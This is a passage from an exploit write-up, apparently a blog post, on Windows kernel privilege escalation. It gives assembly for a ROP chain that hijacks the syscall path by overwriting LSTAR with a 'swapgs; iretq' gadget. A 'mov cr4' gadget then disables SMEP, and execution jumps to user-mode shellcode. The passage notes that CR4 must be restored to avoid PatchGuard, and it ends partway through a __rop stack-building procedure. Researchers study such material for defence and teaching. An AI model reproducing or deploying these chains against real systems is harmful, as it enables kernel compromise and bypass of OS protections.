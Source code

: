 ```asm
mov rbx, 10h     ; CS usually 0x10 in kernel-mode
push rbx         ; CS
push <address>   ; Top of stack (pointer to second gadget)
```

Therefore, the first ROP gadget is "*swapgs; iretq*{: style="color: LightGreen"}" at offset *0xA18C22*{: style="color: LightSalmon"} (for my kernel version).  
When the syscall instruction gets called, it will jump to the address pointed by LSTAR, therefore, LSTAR  should be overwritten with the address of the first ROP gadget.  
Then IRETQ will transfer execution to the second gadget.  

The second gadget should modify CR4 to disable SMEP, so it should be in the form of "*mov CR4,*{: style="color: LightGreen"}". The gadget below was found at offset *0x383B85*{: style="color: LightSalmon"} and with a bit of additonal stack preparation would suffice.  
```asm
mov cr4, rax    ; disable SMEP
add rsp, 0x20
pop rbx
ret             ; jump to shellcode
```

To make the PoC easier, instead of reading the existing value of CR4 and then modifying it, I replaced it with a known value that works. I used windbg to check what was CR4 in my test VM and I hardcoded it into the exploit with bits 20,21 set to 0. The original value should also be saved, because the final shellcode should restore it in order not to trigger KPP.  

With SMEP disabled, no more gadgets are required and the ROP can finally jump to the user allocated buffer containing the shellcode.  
The following is the chain of execution:  
```
syscall -> LSTAR (gadget1, switch to kernel-mode) -> gadget2 (disable SMEP) -> shellcode
```

Let's see how the *__rop*{: style="color: LightGreen"} function responsible for preparing the ROP will look like (it's easier to read it from the bottom-up):  

```asm
PUBLIC __rop

.code
	__rop PROC
    ; rcx - arg1, rdx - arg2, r8 - arg3, r9 - arg4
	; top of stack -> return address
	
	    pushfq           ; push current RFLAGS on stack
		pop r12          ; save original RFLAGS to r12, and restore before returning to main
		                 ; otherwise program crashes when the shellcode returns to the calling function

		sub rsp, 16      ; 
		xor rbx, rbx     ; rbx = 0
		sub rbx, 16      ; rbx = FFFFFFFFFFF0
		and rsp, rbx     ; align the stack to 16 byte (needed by IRETQ)

		push rcx         ; arg1 -> user shellcode address
		
		sub rsp, 20h     ; neutralize the "add rsp, 20h" from the CR4 gadget

		mov rbx, 18h     ; SS, usually 0x18 in kernel-mode
		push rbx         ; ss
		push rsp         ; RSP (Current RSP points to where SS was pushed. 
		                 ; After IRETQ, RSP will be replaced with this one and will point to where SS was on stack)
						 ; The cr4 gadget has "pop rbx" which will remove it from stack

		pushfq           ; push current RFLAGS to stack
		pop rbx          ; load current RFLAGS to rbx
```